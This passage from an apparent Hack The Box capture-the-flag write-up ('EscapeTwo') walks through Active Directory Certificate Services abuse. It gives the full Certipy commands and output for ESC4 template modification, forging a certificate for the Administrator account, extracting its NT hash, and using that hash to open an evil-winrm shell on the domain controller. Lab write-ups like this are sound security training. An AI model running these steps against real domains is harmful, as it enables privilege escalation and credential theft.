certipy find -dc-ip 10.10.11.51 -username ca_svc@sequel.htb -hashes 3B181B914E7A9D5508EA1E20BC2B7FCE -vulnerable -stdout
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sequel-DC01-CA'
[*] Checking web enrollment for CA 'sequel-DC01-CA' @ 'DC01.sequel.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireCommonName
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-06-15T21:33:28+00:00
    Template Last Modified              : 2025-06-15T21:33:28+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

### Certificate Template Modification

Certificate Publishers group membership enabled modification of certificate template configuration for administrator impersonation:

```powershell
certipy template -u 'ca_svc' -hashes 3B181B914E7A9D5508EA1E20BC2B7FCE -template 'DunderMifflinAuthentication' -write-default-configuration -dc-ip 10.10.11.51
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Saving current configuration to 'DunderMifflinAuthentication.json'
[*] Wrote current configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'
                                                                                                                                                                                             
wither@kali:~/CTF/HTB/EscapeTwo/files$ certipy req -u 'ca_svc@sequel.htb' -hashes 3B181B914E7A9D5508EA1E20BC2B7FCE -ca sequel-DC01-CA -template 'DunderMifflinAuthentication' -upn Administrator@sequel.htb -target-ip 10.10.11.51
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: SEQUEL.HTB.
[!] Use -debug to print a stacktrace
[!] Failed to resolve: SEQUEL.HTB
[*] Requesting certificate via RPC
[*] Request ID is 10
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
                                                                                                                                                                                             
wither@kali:~/CTF/HTB/EscapeTwo/files$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51              
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
                                                                                                                                                                                             
wither@kali:~/CTF/HTB/EscapeTwo/files$ evil-winrm -i 'DC01' -u 'sequel.htb\Administrator' -H aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
                                        
Evil-WinRM shell v3.7
                                        
Error: Invalid hash format
                                                                                                                                                                                             
wither@kali:~/CTF/HTB/EscapeTwo/files$ evil-winrm -i 'DC01' -u 'sequel.htb\Administrator' -H 7a8d4e04986afa8ed4060f75e5a0b3ff                                 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> more ../Desktop/root.txt
60f3d984fddad99abd684db8f92da013

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

---

## Conclusion

Complete domain compromise achieved through credential management failures and certificate services misconfigurations rather than software vulnerabilities.

**Critical Misconfigurations Exploited:**
- Sensitive credentials stored in accessible file shares
- Password reuse across multiple service accounts
- WriteOwner permissions enabling certificate services takeover
- Certificate template permissions allowing unauthorized enrollment

**Key Technical Takeaway:** Users with object ownership capabilities over certificate services accounts can modify certificate templates to enable administrator impersonation through ESC4 exploitation.

---

## References
- [Certificate Services ESC4 Attack Path](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Whisker: Shadow Credentials Attack](https://github.com/eladshamir/Whisker)
- [Certipy Certificate Services Enumeration](https://github.com/ly4k/Certipy)

---
#escapetwo #htb #easy #windows